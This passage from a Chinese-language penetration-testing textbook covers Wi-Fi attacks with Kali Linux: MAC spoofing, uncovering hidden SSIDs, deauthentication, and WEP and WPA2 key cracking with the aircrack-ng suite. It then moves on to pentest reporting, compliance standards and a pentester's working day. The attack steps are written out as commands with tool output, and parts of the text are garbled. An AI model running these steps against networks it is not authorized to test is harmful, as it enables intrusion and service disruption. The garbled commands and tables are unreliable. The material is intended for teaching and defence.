通过 MAC 地址过滤客户端是保护 Wi-Fi 网络的一种非常低劣的方法。入侵者只需要花费 1 到 2 分钟就能绕过这种安全。

大多数网络设备都允许通过图形界面（GUI）更改 MAC 地址。在 Kali Linux 中，你可以如下所示更改 Wi-Fi 适配器的 MAC 地址；它对于线和无线网络都有效：

```
ifconfig wlan0 down
ifconfig wlan0 hw ether 00:11:22:AA:AA:AA
ifconfig wlan0 up
```

所以，这就是在这里的操作。我们必须首先禁用接口。你可以通过执行命令 `ifconfig wlan0` 来检查替换是否生效。MAC 地址应该出现在 `Hwaddr` 行中。

此外，还有一个 `macchanger` 工具，可以帮助你设置随机 MAC。如果我们将其放入 `init.d`，每当启动时，我们的 MAC 都会是不同的。以下是使用方法：

```
# 随机 MAC:
macchanger -r wlan0

# 定义 MAC:
macchanger -m 11:22:33:AA:BB:CC wlan0

# 显示 MAC:
macchanger -s wlan0
```

不要被随意更改 MAC 地址的自由所困扰。某些接入点不允许具有无效 MAC 地址的客户端连接。因此，如果你更改为任意值，请确保它在数据库中，否则你可能会遇到问题。在 Kali Linux 中，此数据库位于以下文件中：

```
/var/lib/ieee-data/oui.txt
/var/lib/ieee-data/oui36.txt
/var/lib/ieee-data/iab.txt
/var/lib/ieee-data/mam.txt
```


## 防止 MAC 欺骗

欺骗系统的 MAC 地址不能完全消除被检测到的风险，因此网络管理员仍然能够看到来自欺骗 MAC 地址的流量。`欺骗的 MAC 地址`将从两个不同的源并行出现在流量日志中。应用无线网络加固也非常重要。某些防火墙具有防止和检测 MAC 欺骗的功能；集成此类防火墙可能会提高无线安全性。还有许多 MAC 欺骗检测工具可以使用，例如反 ARP、Web 流量分析器和带宽监控工具。

## 发现隐藏 SSID 攻击

在本节中，我们将介绍如何使用 Kali Linux 发现隐藏 SSID。首先，我们通过隐藏现有的 SSID 来设置环境，如图 8.24 所示。

WiFi 名称


图 8.24: 从接入点隐藏 SSID

我们已经激活了监控模式下的网卡，因此接下来的工作是扫描附近的网络。我们使用 `airodump-ng` 扫描：

| BSSID | Beacons | #Data, #s | MB | ENC | CIPHER | AUTH | PSK <length: > |
|---|---|---|---|---|---|---|---|
| 84:C9:B2:6A:9E:90 | 29 | 144 | 11 | 0 | 130 | WPA2 | PSK | >
| F:C2:A1:6C:B9 | 45 | 0 | 1 | 195 | WPA2 | PSK | Purge |
| 32:C0:A7:15 | D9 | 49 | 0 | 0 | 64 | WPA2 | PSK | Direct-Soq2020 |
| BC:EE:7B:7E | 124 | 0 | 9 | 195 | WPA2 | PSK | noc |
| 02:28:A4:44:C5:81 | 51 | 76 | 3 | 0 | 195 | WPA2 | PSK | Pent |
| 82:28:A4:44:C5:81 | 63 | 0 | 1 | | PSK | <length: > |
| F2:9F:C2:AA:6C:B9 | 47 | 0 | 1 | 195 | WPA2 | PSK | <length: > |
| 08:36:3D:2C:95 | 54 | 0 | 0 | 130 | WPA2 | PSK | belkin.24d |

图 8.25: 寻找附近的 Wi-Fi

当前状态下，我们的 SSID 是 `84:C9:B2:6A:9E:90`，我们使用通道 6。接下来，我们输入接入点的 BSSID 和通道。之后，清除 BSSID 并返回它。这次，我们指定上一步中看到的隐藏 SSID 和通道：

```
sudo airodump-ng -c 6 --ssid 84:C9:B2:6A:9E:90 wlan0
```

```
CH 6 | Elapsed: 18 s | [2021-12-15 20:21 ] paused output

BSSID | Pwr RX Beacons #Data, #s | MB | ENC | CIPHER | AUTH | PSK <length: > |

|---|---|---|---|---|---|---|---|

| 84:C9:B2:6A:9E:90 | -25 | 185 | 35 | 0 | 130 | WPA2 | PSK | > |

STATION | Pwr Rate | Lost | Frames Probe |

|84:C9:B2:6A:9E:90 | 84:C9:B2:6A:9E:90 | -1 | 1 - 0 | | 21

```

图 8.26: `airodump-ng` 输出

我们将让它运行目标的 BSSID，但看不到 ESSID（图 8.26）。现在，在扫描运行时我们有两种方法发现 SSID。一种方法是等待新设备连接到接入点。当新设备尝试加入网络时，它会发送一个 beacon 帧，`airodump-ng` 会立即在终端输出填充 SSID。

现在我们将一个设备连接到网络，展示它是如何呈现的：

```
CH 6 | Elapsed: 6 mins [2021-12-15 20:27] paused output

BSSID | PWR | Beacons | #Data, #s | CH | MB | ENC | CIPHER | AUTH | ESSID |

| 84:C9:B2:6A:9E:90 | -24 | 3247 | 416 | 6 | 130 | WPA2 | CCMP | PSK | debash wifi |

| STATION | | | PRate | Lost | Frames | Probe |

| 84:C9:B2:6A:9E:90 84:C9:B2:6A:9E:90 | -1 | 1 - 0 | | | | 262 |

| 84:C9:B2:6A:9E:90 00:C0:CA:95:AE:88 | -7 | 0 - 1 | 2 | | | 6 |

```

图 8.27: 带有可见 SSID 的 `airodump-ng` 输出

## 我们应该能够控制显示 Debash wifi 名称的（图 8.27）。

这是发现隐藏 SSID 的方法之一。我们的另一种方法是随时强制断开与 AP 关联的一个或所有设备。

我们可以使用 `airplay-ng` 工具通过向设备发送身份验证包来断开连接。为此，让我们打开新终端并向接入点上的所有连接设备发送身份验证包。以下命令将向我们的接入点发送身份验证包：

```
sudo airplay-ng -0 5 -a 84:C9:B2:6A:9E:90 --negative wlan
```

```
CH 6 | Elapsed: 18 s | [2021-12-15 20:21 ] paused output

BSSID | Pwr RX Beacons #Data, #s | MB | ENC | CIPHER | AUTH | PSK <length: > |

|---|---|---|---|---|---|---|---|

| 84:C9:B2:6A:9E:90 | -25 | 185 | 35 | 0 | 130 | WPA2 | PSK | > |

STATION | Pwr Rate | Lost | Frames Probe |

|84:C9:B2:6A:9E:90 | 84:C9:B2:6A:9E:90 | -1 | 1 - 0 | | 21

```

图 8.28: 向所有设备发送身份验证包

```
root@kali:~/home/kali

#
```

### 图 8.30：确认监控模式

### 2. 寻找攻击的接入点：输入以下命令搜索你区域内的所有 Wi-Fi 接入点：

```
airrodump-ng wlan0
```

其中 `wlan0` 是处于监控模式的接口。

按下回车键后，我们将看到周围所有接入点的列表：


图 8.31：带有 WEP 加密的接入点

在这里，我们选择具有 WEP 加密的接入点，正如你之前看到的，只有一个是这样的：`dlink_guest`（见图 8.31 1）。

### 3. 捕获所选接入点的数据包：现在，让我们捕获我们想要入侵的 Wi-Fi 数据包。输入以下命令进行操作：

```
airodump-ng --ssid CA:BE:19:65:C5:D4 -w output -c 10 wlan0
```

其中，

- `airodump-ng`：主命令

一旦我们按下回车，我们将看到类似图 8.32 的内容：

```
CH 10 ] [ Elapsed: 40 s ] [ 2014-11-12 05:49 ] [ fixed channel:8: 12

BSSID               PWR RXQ Beacons     Data.r/s CH  ENC CIPHER AUTH E

CA:BE:19:65:C5:D4 -30 1 22     224 35 10 54e WEP WEP d

BSSID               STATION      PWR P&R Lost  Probes False

CA:BE:19:65:C5:D4 00:13:e8:90:a0:6f -46 54e-5a 981 225

```

图 8.32：使用 `airdump-ng` 捕获流量

尽管有其他设备已连接，但有时我们无法像图 8.32 所示那样快速获取数据包。在很多情况下，我们必须等待一段时间。通常，我们必须等待 `#data` 达到 10,000。有一些方法可以缩短等待时间。

通过发送伪造认证数据包来缩短等待时间：为了发送伪造认证包，我们打开一个新的终端并输入以下命令：
```
airplay-ng -l 0 -a CA:BE:19:65:C5:D4 wlan0
```


其中：

- `-a`：路由的 MAC 地址
- `wlan0`：处于监控模式的接口

一旦你执行了上述命令，你应该会在图 8.33 中看到设备 MAC (`00:C0:CA:4A:73:01`)：

```
No source MAC (-h) specified, Using the device MAC (00:C0:CA:4A:73:01)

05:52:31 Waiting for beacon frame (BSSID: CA:BE:19:65:C5:D4) on channel 10

05:52:31 Sending Authentication Request (Open System) [ACK]

05:52:31 Authentication successful

05:52:31 Sending Association Request

05:52:36 Sending Authentication Request (Open System)

05:52:38 Sending Authentication Request (Open System)

05:52:40 Sending Authentication Request (Open System) [ACK]

05:52:40 Authentication successful

05:52:40 Sending Association Request
```

图 8.33：向目标发送伪造认证包

这意味着你的适配器现在已与路由器关联（见图 8.33）。这并不一定意味着你可以在没有密码的情况下访问网络，因为你还没有建立连接。

回到捕获数据包的终端。在 `#Data` 达到约 10,000 之前，我们不停止进程。

- 从目标路由器获取数据包：这是主要阶段，是增加数据包的关键，仍在运行数据捕获的终端会获取这些包。

输入以下命令：

```
areplay-ng -3 -b Ca:BB:19:65:C5:D4 wlan0
```

一旦上述进程开始，当我们回到捕获数据包的终端并观察 `#Data` 列中的数据包时，我们应该看到它显著增加。

通常，数据包计数大于 10000，我们才能进行破解。一旦我们有了足够的数据，就可以停止进程。同时，我们应该会看到创建一个包含我们所有捕获数据的新 `.cap` 文件。

- 使用 `aircrack-ng` 破解密码：在新终端中输入以下：

```
aircrack-ng output-01.cap
```

```
Acrack-ng 1.2 beta2

[00:00:02] Tested 543797 keys (got 1958 IVs)

KB depth byte(vote)

0 59/95 FE(2560) 07(2304) 09(2304) 0A(2304) 1E(2304)

1 16/95 D6(3328) 29(3072) A(3072) 33(3072) B5(3072) 50(3072)

2 10/20 B8(3328) 26(3072) 5E(3072) B5(3072) CE(3072)

3 3/9 76(3840) 33(3584) 6A(3584) A7(3584) C5(3584)

4 12/4 4C(3328) 2B(3072) 42(3072) 49(3072) 4F(3072) KEY FOUND! [31:32:33:34] Decrypted correctly: 100%
```

图 8.34：暴力破解密钥

这就是过时接入点的 WEP 密码（见图 8.34）。当我们的数据不足时，破解就会失败。WEP 是一种过时的加密方式，硬件已不再支持。如果你在客户的网络中发现 WEP，请要求他们升级。

## 破解 WPA/WPA2（弱密码）

WPA2 是 WPA 的更新版本，使用 AES 加密和长密码来创建安全网络。在本节中，你将学习如何破解 WPA/WPA2 密码：

### 1. 确保你处于监控模式

首先，我们应该确保你的无线接口处于监控模式（见图 8.35）

```
root@kali: [/home/]# ifconfig

lo         no extensions.

eth0       no extensions.

wlan0      IEEE 802.11 Mode:Monitor Frequency:2.437 GHz Tx-Power=20 dBm           retry limit=7 RTS-thr=234 Fragment:off           Power Management:off

root@kali: [/home/#]
```

图 8.35：监控模式已开启

### 2. 找到目标

启动 Kali Linux。打开终端窗口并执行以下步骤：我们首先查看实验室中所有的 Wi-Fi 网络：

```
airrodump-ng wlan0
```

我们看到了可用的 WPA2 网络，如图 8.36 所示：

| BSSID | #Data | #Freq | CH | MB | CIPHER | ESSID |
|---|---|---|---|---|---|---|
| 88:BI1: | -84 | 1 | 0 | 195 | OPN | |
| 88:BI1: | -52 | 2 | 0 | 195 | WPA2 CCMP | MGT |
| 88:BI1: | -66 | 3 | 0 | 150 | WPA2 CCMP | MGT |
| 88:BI1: | -88 | 2 | 0 | 115 | WPA2 CCMP | MGT |
| 04:D1: | -1 | | | | | |
| 80:35:C1:2C:C1:13 | -33 | 22 | 2 | 61 | 13 | 180 | WPA2 PSK |

图 8.36：附近的 WPA2 目标

### 3. 查看接入点的客户端

尝试查看连接到接入点的客户端。我们可以通过执行以下命令来实现：

```
airodump-ng -c 13 --bssid CA:BE:19:65:C5:D4 -w
```

其中：

- `airodump-ng`：捕获数据包
- `-c 13`：信道
- `--bssid`：接入点的 MAC 地址
- `-w`：输出目录

执行上述命令会将捕获的数据包保存到当前目录：

```
CH 10 ] [ Elapsed: 40 s ] [ 2014-11-12 05:49 ] [ fixed channel:8: 12

BSSID               PWR RXQ Beacons     Data.r/s CH  ENC CIPHER AUTH E

CA:BE:19:65:C5:D4 -30 1 22     224 35 10 54e WEP WEP d

BSSID               STATION      PWR P&R Lost  Probes False

CA:BE:19:65:C5:D4 00:13:e8:90:a0:6f -46 54e-5a 981 225
```

### 4. 通过发送伪造认证包断开连接

为了断开与路由器的连接，我们需要执行以下命令：

```
airplay-ng --deauth 0 -a CA:BE:19:65:C5:D4 wlan0
```


一旦执行了上述命令，你应该在图 8.37 中看到目标设备的 MAC (`00:C0:CA:4A:73:01`) 已断开连接。

图 8.37：向目标发送断开包

- `-b`: 目标网络的 BSSID
- `-w`: 字典列表文件的位置
- `capture-01.cap`: `.cap` 文件的位置

如果你想创建自己的文件，可以从网上下载常用密码文件。一旦密码破解成功，你应该会在终端窗口上看到找到的密钥，如图 8.41 所示：


图 8.41：Aircrack-ng 揭示了访问点密钥

## 预防针对 WPA/WPA2 的密码攻击

不，防止他人捕获握手包是不可能的。然而，一个实施良好且具有足够熵的密码可以令资金充足的攻击者感到沮丧。为高端机器给出的示例哈希率在配备了 8 个 GPU 的机器上每秒仍仅为 100 万次哈希。在一年中，你可以进行 `1,000,000 * 60 * 60 * 24 * 365 = 3*10^13` 次密码破解，大约相当于 44 位。如果你真的想获得安全，请生成一个随机的 128 位密码。这将防御任何暴力破解攻击。

## 非法访问点攻击

企业级无线局域网是一个经过授权且受保护的网络。非法访问点（AP）是指在未经授权的情况下放置在公司内部的任何无线网络接入点。图 8.42 应该让你对非法访问点攻击有一个宏观的：


图 8.42：非法访问点攻击图像，图片来源：Khan Academy

许多非法访问点是由公司员工（有害用户）安装的。它们实际上与公司 IT 部门部署的接入点不同。在大多数情况下，一些小型办公家庭办公（SOHO）无线路由器被用作非法访问点。在当今世界中，非法访问点可能伪装得极其精良，有时很难发现它们。

当任何网络资源被非法访问点暴露时，可能会识别出以下风险：

- **数据破坏**：数据库可能被擦除。
- **数据窃取**：企业数据可能遭到破坏。
- **第三方攻击**：公司的有线网络可能被用作对互联网上其他网络发起第三方攻击的发射平台。
- **服务丢失**：网络服务可能被禁用。
- **恶意数据注入**：攻击者可能使用门户上传病毒、键盘记录器或色情内容。

## 预防非法访问点攻击

为了避免安装非法访问点，公司可以建立无线入侵防御系统，以跟踪未经授权接入点的射频频率。在位于许多公司办公室的任何区域，都可以发现许多无线接入点。某些无线入侵防御系统（WIPS）可以方便持续审计这些接入点的工作，以发现其中是否存在任何类型的非法访问点。为了发现非法访问点，需要测试以下两个条件：

- 接入点是否已列在组织维护的合法接入点列表中
- 接入点是否已连接到现有的安全网络

## 结论

无线网络在部署和设置时也需要像有线网络那样的安全性考虑，以便于维护。无线渗透测试是确定你的无线网络安全态的一种流行方法。在本章中，我们演示了利用 Kali Linux 中几种可用工具对无线网络进行攻击的实用方法。现在，你剩下的工作就是在模拟环境中自己进行尝试。

## 关键点

- 针对 Wi-Fi 网络可以进行各种攻击。在短时间内涵盖所有内容几乎是不可能的，因此强烈建议读者从各种可靠的来源中阅读，以学习其他攻击。
- 运行工具并完成任务是可以的，但了解工具是如何运作的同样重要。为了实现这一点，Wireshark 可以成为你最好的朋友。我们建议你在每次运行任何工具时都运行 Wireshark，以了解这些工具在后台是如何运行的，以及在空中发送了哪些数据包。这将帮助你自定义这些工具并执行更高级的攻击。

## 问题

1. 解释原始 WLAN 数据包的每个部分及其意义。
2. 具有哪些不同的 WLAN 安全协议？
3. 从安全角度来看，WPA 相比于 WEP 有什么优势？
4. 什么是 WPA3？
5. 解释 WLAN 接入点和客户端如何通信。
6. 什么是 IEEE 802.11 标准？
7. 什么是探测请求（probe request）？
8. 什么是信标帧（beacon frames）？
9. 什么是关联请求（association requests）？
10. 如何验证你的 WLAN 卡具有数据包注入能力？
11. 为什么在 WLAN 适配器中具有数据包注入能力很重要？你是如何做到的？
12. 什么是监控模式（monitoring mode）？你如何切换到监控模式？
13. WLAN 管理帧可以包含哪些数据？
14. 是否可以嗅探通过 Wi-Fi 网络的所有数据包？如果是的话，你如何做？
15. 解释 BSSID。
16. 解释 ESSID。
17. 你如何发现有多少客户端连接到 Wi-Fi 网络？
18. 解释 MAC 欺骗（MAC spoofing）。
19. 破解 WEP 加密的步骤是什么？
20. 破解 WPA 加密的步骤是什么？
21. 什么是 WLAN 解除身份攻击，你如何防止它？
22. 在 WLAN 中发现隐藏 SSID 的步骤是什么？
23. 如何断开接入点的所有客户端？
24. 如何执行非法访问点攻击？

# 第 9 章 报告准备与文档

## 引言
漏洞评估与渗透测试（VAPT）有助于组织击败黑客和攻击小组。渗透报告记录了整个渗透过程中发现的所有漏洞的详细分析。标准的渗透报告还应包含漏洞的严重程度，这有助于确定修复优先级。

### 结构
本章涵盖了以下主题：

- 合规标准
    * ISO 27001
    * GDPR
    * PCI DSS
    * NHS 数据安全保护工具包
    * 印度储备银行（RBI）网络安全指南
    * 印度计算机应急响应小组（CERT-IN 或 CERT）网络安全指南
- 有效的渗透报告

### 目标
学习本章后，你应该理解报告在渗透测试过程中的重要性。你将学习渗透报告必须包含的内容以及如何准备有效的渗透报告。我们还将查看一个开源渗透测试报告框架，这将帮助渗透测试人员从零建立报告体系。


图 9.1: ISO 27001

ISO 27001 要求组织根据其特定的安全威胁使用控制措施。这意味着没有任何一组控制措施是强制性的，但该标准描述了许多需要考虑的最佳实践建议。

ISO 27001 附录 A. 12 - 运行安全规定，应当及时获取有关技术安全漏洞的信息，应对对这些漏洞的直接暴露应进行评估，并采取理想的步骤来处理相关风险。

渗透测试在信息安全管理体系（ISMS）项目的多个阶段阶段发挥作用。因此，组织总是尝试寻找适应性的 ISO 27001 渗透测试服务提供商，以执行满足这些要求的评估。因此，渗透测试服务提供商通常会根据招聘人员对上述标准的熟练程度对其进行评估。求职者可以通过以下链接了解更多信息：

`https://www.isms.online/iso-27001/annex-a-12-operations-security/#:~:text=12.6,_to20address%20the%20associated%20risk`

## 通用数据保护条例 (GDPR)

影响所有在欧洲市场运营的组织的法规是《通用数据保护条例》（GDPR）。在英国，GDPR 的要求保留在《2018 年数据保护法》（DPA 2018）中，以确保在英国完成脱离欧盟后这些要求仍然有效。GDPR（参见图 9.2）涵盖了数据保护的所有方面，但在其许多需求中，处理个人数据的组织也需要改进信息安全和治理：


图 9.2: GDPR

**GDPR 第 32 条 处理的安全性：** GDPR 第 32 条要求组织实施一种流程，定期对测试、检查和评估数据处理安全的技术和组织程序的有效性，以确保数据处理的安全性。

访问以下链接获取更多信息：
`https://gdpr-info.eu/art-32-gdpr/`

## PCI DSS

支付卡行业数据安全标准（PCI DSS）是一组旨在帮助公司保护客户持卡人数据的最低要求。所有接受或处理在线卡支付的组织都需要接受年度 PCI 安全审计，以确保组织的合规性：


图 9.3: PCI

**PCI DSS v3.2.1：** PCI DSS 3.2.1 的第 11 项要求特别规定执行常规渗透测试。属于 PCI DSS 范围的组织必须至少每年进行一次内部外部渗透测试，或者在基础设施发生重大变化后进行。PCI DSS 渗透测试要求测试由合格的测试人员进行，并会考虑其证书和以往经验。

PCI DSS 渗透测试必须包括对持卡人数据环境（CDE）中基础设施和应用程序的评估，涵盖组织网络内部和外部。访问以下链接获取更多信息：

`https://www.pcisecuritystandards.org/documents/PCI_DSS-QRG-v3_2_1.pdf`

## NHS 数据安全与保护工具包

数据安全与保护（DSP）工具包是一种在线自评估工具，帮助英国医疗保健市场的组织根据**国家数据守护者**（NDG）的数据安全标准对其安全状况进行基准比较。NDG 标准涉及所有处理健康和社会照护信息的组织：


图 9.4: NHS 数字工具包

NDG 标准 9 规定，必须保留一种方法来保护 IT 系统免受网络风险的影响。这至少必须包括一次涵盖关键网络基础设施和网络服务的年度渗透测试。可以在以下链接找到更多信息：

`https://www.dsptoolkit.nhs.uk/Help/Attachment/24`

还有其他监管标准：

- *SWIFT CSP*：SWIFT 客户安全计划（CSP）旨在通过一系列强制安全控制措施、社区范围的信息共享计划以及其产品增强的安全功能来防止和检测欺诈活动。
- *NIS 指令及法规*：欧盟的 NIS 指令（关于网络和信息系统安全的指令）是欧盟首部网络安全立法。其目标是在整个欧盟的关键基础设施实现高水平的通用网络和信息系统安全。

## 印度储备银行 (RBI) 网络安全指南

提供任何类型金融服务的公司最容易受到网络攻击。印度储备银行发布了一套网络安全框架指南：通告 DBS. on CO/CSITE/BC.11/33.01.001/2015-16。该指南侧重于建立稳健的网络安全和韧性框架的紧迫需求，以确保金融服务公司准备应对任何类型的网络威胁。该框架要求任何金融服务提供公司定期进行漏洞评估/渗透测试。


## 发现的安全漏洞详情

一份优秀的渗透测试报告最核心要素之一是列出 VAPT（漏洞评估与渗透测试）中发现的所有漏洞，你应该根据发现结果的严重程度对它们进行列举。无论漏洞存在于应用程序的哪个部分，对漏洞进行适当的*全局视角*让安全或开发团队对现状和后续路径有一个清晰的认识。在优秀的渗透测试报告中，测试人员必须对这些漏洞所在以及攻击者如何操纵它们提供充分的解释，理想情况下使用通俗易懂的语言。

## 业务影响详细分析

在 VAPT 报告中你应该添加的另一个重要部分是暴露漏洞对业务产生负面影响的全面概述。默认情况下，分配的数值评分基于**通用漏洞评分系统 (CVSS)**。渗透测试人员应该利用额外的复杂方法来指定评分，例如一种同时指定相似评级（**低/中/高/严重**）以及每个漏洞对业务造成的严重性解释的评分系统。

图 9.7 显示了一个解释漏洞业务影响的示例报告：

该漏洞的利用在某种程度上之所以成为，是因为漏洞系统中包含了开发人员工具。如果系统中不存在这些工具，仍然可以成功利用，尽管操作难度会增加。在当前配置下，Web 服务器代表了恶意实体的内部攻击平台。

由于具有获得完全管理权限的能力，恶意实体可以利用此漏洞系统实现多种目的，从对 MegaCorp One 的攻击到对其客户的攻击不等。攻击者极有可能利用该系统来实现这两个目的。

图 9.7：漏洞的影响

请注意，如果给出漏洞细节，读者可能无法理解其影响。此部分应该显示所发现漏洞的细节及其影响。

## 可利用性洞察

你的渗透测试报告应该记录利用安全漏洞的困难程度。可利用性部分还应该强调任何漏洞的利用程序的可用性。如果任何现有漏洞的利用程序公开可用，那么利用的简易程度将非常高。

## 技术风险简报

漏洞风险评级（或 CVSS 分）是显示漏洞严重性的一种直接方法。它让我们能够一眼快速了解漏洞情况。

图 9.8 显示了一个示例报告，以及如何传达任何发现漏洞的技术风险评级：

# 3 发现与风险分析

### 3.1 管理权限提升

> 严重程度：严重
> CVSS 分数：9.9 (CVSS:3.0/AV:N/AC:L/PR:L/UI:N/S:C/C:H/A:H)

图 9.8：发现与风险分析

图 9.8 所示漏洞的 CVSS 分数可以使用以下在线 CVSS 计算器计算，你必须从几个选项中进行选择，例如攻击向量 (AV)、攻击复杂度 (AC)、所需权限 (PR) 和用户交互 (UI)。然后，你将看到根据所选选项生成的 CVSS 分数：`https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator`


图 9.9：在线 CVSS评分计算器

然而，当消除这些漏洞时，仅凭分数是不够的。因此，在准备渗透测试报告时，你应该对突出的漏洞和技术风险提供解释。结合上下文环境，这会为报告增加更多分量。

## 修复

如果没有修复建议，渗透测试报告只是一个列有漏洞列表的文档。如果没有适当的修复或缓解想法，你客户的网站或网络将继续处于不安全。
图 9.10 显示了漏洞报告的示例建议：

## 建议

所有企业资产应保持更新供应商提供的最新安全补丁。可以通过厂商原生工具或第三方应用程序来实现，这些工具可以提供缺失补丁的概述。在许多情况下，第三方

> 图 9.10：示例建议

附录 A：关于安全

# 第10章

## 渗透测试员的一天

## 引言

渗透测试员（也称为 pentesters）帮助公司确定并处理影响其数字资产和网络的安全漏洞。有些渗透测试员是全职员工，作为内部网络安全或信息技术（IT）团队的一部分工作。另一方面，其他渗透测试员属于专门的服务型公司，为他们的客户提供服务。渗透测试员的大部分时间花在连接网络的资产进行评估。这些任务可能针对组织的内部或外部资产。渗透测试员可以在现场工作，也可以在其他地点工作。要描述一个渗透测试员典型的一天并不容易，在本章中，我们将介绍一些有助于学生建立对渗透测试员认知的内容。

### 结构

我们本章将涵盖以下主题：

- 渗透测试员典型的一天
- 常见的日常挑战
- 保持像黑客一样的问题解决思维
- 有效沟通技巧的重要性
- 日常精进你的技能
  - 自学
  - 认证
  - 互联网上的免费课程
  - 参与漏洞赏金计划（Bug Bounty）
  - 通过 CTF 竞赛进行竞争性学习
- 回馈社区
- 免费项目、实验室、仓库等

### 目标

虽然描述渗透测试员生活中典型的一天并不是件易事，但在学习本章后，你应该对此有一个相当的了解。渗透测试是一项非常敏感的任务，因此我们还将深入探讨几项预防性的待事项，以安全地进行渗透测试。

## 渗透测试员的一天

如所述，考虑到工作环境的巨大差异，以及工作根据渗透测试员所执行的任务类型而异，要描述渗透测试员典型的一天几乎是不可能的。正常的一天可能从在客户现场工作到在舒适的家/办公室工作，测试远程访问的应用程序/网络。

渗透测试员没有所谓的正常工作日。这一天可能是兴奋的、精疲力竭的、充满刺激的或三者兼具。有时，渗透测试员可以在目标最虚弱、最脆弱的时刻甚至是处于最最安全的状态看到它们。渗透测试员的工作就是把自己置于攻击者的立场，在坏黑客之前找到弱点。

整个上午，渗透测试员或测试团队会决定渗透测试项目的方法，并设置所需的工具和环境。有时，这包括召集开源情报（也称为 OSINT）专家，黑客在尝试攻击任何系统时会使用这种技术。

通常，在下午后半段，他们会执行上午计划好的测试。其他日子则由进行模拟以检查内部风险的其他方面组成。例如，渗透测试团队可能会针对选定的公司员工进行钓鱼攻击（社会工程学手段）或其他各种技术，以查看他们如何对此类探测做出反应。

在整个测试生命周期中，肯定会有定期的客户会议。与渗透测试消费者联系的主要目的是理解他们的需求并设定假设，同时建立测试的范围和边界。可能还会与客户就前一天发送的报告中的之前的任务进行对话，这种情况发生比想象中要频繁。与客户的互动是渗透测试员经常忘记的，但它是渗透测试项目中非常重要的阶段。客户沟通的重要性将在本章稍后详细讨论。

## 常见的日常挑战

如今的巨大困难是网络世界已变得巨大。以前，大多数网络安全问题集中在计算机上。现在，得益于物联网（IoT），几乎一切都有网络连接。渗透测试员的生活也不例外。在本节中，我们将看看渗透测试员面临的一些常见挑战

## 法律挑战

在渗透测试员或测试团队面临的许多挑战中，**法律挑战**是一个重要部分。显然，这里要执行测试的人员是，**在什么基础下应该允许测试员访问公司的敏感资源？**在发生任何意外情况下（例如，安全泄露或数据丢失），谁应该对丢失的数据负责？在许多情况下，客户可以将数据丢失或机密性破坏归咎于渗透测试员。此外，渗透测试有时会影响/降低关键系统的性能。结果是引发了可用性和完整性问题。因此，获得必要的书面许可是非常重要的。


**图 10.1：法律**

对于渗透测试员来说，识别谁拥有他们被工作的业务或系统是重要的，他们还应该理解，目标所在的整个框架可能受到渗透测试的影响。建议查看是否满足以下条件：

- 测试员拥有具有明确参数的合规书面许可
- 公司拥有其渗透测试员的信息，并确保他们绝对不会泄露任何类型的私有数据

记住，法律合同对双方都有帮助。此外，请记住法规在国家之间是不同的，因此要保持对测试所在国家法规的关注。只有在考虑这些法律后才授权协议。

## 满足客户的期望


**图 10.2：客户参与**

所以，当你出去执行渗透测试任务时，测试员应该清楚客户的需求。什么是该做的，什么是不该做的，什么对他们最重要？可能是即使你执行了一次非常完美的渗透测试，客户仍不会满意。因此，在任务开始之前提问是非常重要的。确保你拥有一套针对每位客户的标准问题集。此外，每当你面临新挑战时，确保更新你的调查问卷，以便在下一次任务中不再遇到相同的问题。

## 范围或超出范围

破坏渗透测试最有效的方法之一就是不明确项目范围。渗透测试员或测试团队经常面临的一个问题问题是理解哪些在渗透测试的范围内，哪些不在。在某些情况下，双方并未达成共识。渗透测试员应该做的常规事项如下：

- 从客户处重新验证处于范围内的 IP 地址/主机名/网络地址列表
- 预期是灰盒测试还是黑盒测试
- 他们是否希望你排除特定的 IP 范围/网络部分/应用程序？
- 询问社会工程学是否在渗透测试的范围内
- 询问测试时间段（非工作时间或工作时间）
- 是否预期物理渗透测试？

## 健康与工作平衡

渗透测试是一个出了名的严刻的市场，职责压力很大且充满义务。以下是你应该尝试实施的几点，以有效利用时间：


图 10.3: 保持平衡

在整的一天中，会有几件事情在争相夺你的注意力。要处理所有这些事情几乎是不可能的。请从计算每项任务所需的时间以及哪些工作最重要开始；以紧迫的态度完成优先任务。你很有可能每天都能完成 100% 的工作，因此不要为此自责自弃或感到压力过大，但要尽量确保你已经建立了一套个性化的时间管理流程，以应对最关键的任务。

为自己的生理和心理健康留出时间至关重要的。无论是早晨 1 小时的健身房锻炼，还是一快速的跑步，从工作中抽身并投入精力去做一些你真正喜欢的事情至关重要。你应该思考你的活动是否有助于你的心理/生理健康或带给你满足感。

## 保持黑客式的解决问题思维

解决问题的思维在生活的几乎每个领域都至关重要，渗透测试也不例外。黑客思维（Hacker Mindset）是处理任何大型项目相关工作和问题的一种手段，你尝试寻找替代方案，并在极少资源的帮助下开发创新解决方案。黑客与工程师之间最显著的区别在于他们处理困难的方式。工程师更注重方法论。通常，首先定义问题定义并检查；然后提出假设；接着评估理论。根据评估结果得出最终结论（成功或失败）。

黑客则颠覆了这一过程。最初，没有策略，只有目标。对于黑客来说，计划是非常灵活的。记住，黑客并不是在构建某种应该经受时间考验的东西。他们不需要迎合主管或首席执行官；只需要完成任务。

如果说工程师是有组织性的，那么黑客在方法上就是实用且受多米诺效应驱动的。他们之间有相似之处，但核心区别在于，黑客可能会为了完成任务而不惜任何努力，无论是学习新知识还是开发新的解决方案。作为一名渗透测试员，如果你保持类似的心态，你在角色中成功的概率更高。

## 有效沟通技巧的重要性

你可能花在电话和会议上的时间越来越少，而花更多时间通过即时通讯工具与雇主交流。你的许多同事将从另一个地点工作，并根据第三方合同按项目进行工作。很明显，随着沟通渠道的转型，适当的互动变得比以往任何时候都重要。


图 10.4: 有效的客户参与

渗透测试团队的软技能，尤其是沟通能力，至关重要。你无法对你不理解的内容做出。此外，你无法回答所有问题。一名优秀的渗透测试员无疑会以最清晰的方式对客户组织最严重的风险进行优先排序。编写报告的任务将由经验最丰富的人负责。这就是为什么每个位成员都能以即使非技术人员也能理解的方式来表达复杂主题非常重要。

如果交流和写作不是你的核心强项，你必须找到锻炼它们的方法。我们倾向于避开那些每个人都希望加入团队但技能超群的技术奇才，但没有人想面对客户。大师级的沟通者拥有强大的听力能力、专注地关注某人的能力，以及在诚实和关怀的同时清晰表达的能力。

## 日常磨炼你的技能

网络世界和网络威胁形势变化非常快。安全专业人员必须跟上步伐，这意味着不仅仅是学习编程。技术每天都在驱动着新的流程、预期和沟通手段。此外，雇主也在对员工产生预期。这可能让人应不从心，但只要拥有最好的视角和适应能力，这可以是一个卓越的机遇。以下是潜在的渗透测试人员今天可以做的一些磨炼技能的尝试，以帮助他们在职场中蓬勃发展。

### 自学

